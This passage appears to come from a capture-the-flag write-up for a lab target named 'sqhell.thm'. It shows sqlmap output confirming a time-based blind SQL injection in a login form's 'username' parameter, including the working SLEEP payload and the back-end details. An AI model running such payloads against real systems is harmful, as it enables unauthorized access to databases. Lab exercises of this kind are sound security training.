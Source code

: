 ```text
[22:54:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:54:27] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:54:27] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:54:27] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[22:54:28] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[22:54:28] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[22:54:28] [INFO] testing 'Generic inline queries'
[22:54:28] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[22:54:28] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[22:54:28] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[22:54:29] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:54:39] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:55:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:55:04] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:55:05] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[22:55:22] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[22:55:22] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 95 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8740 FROM (SELECT(SLEEP(5)))NuAN) AND 'ofyh'='ofyh&password=admin
---
[22:55:43] [INFO] the back-end DBMS is MySQL
[22:55:43] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
[22:55:43] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:55:43 /2021-06-08/
```

There's a lot of information, the key point is:

```text
[22:55:22] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable.
```
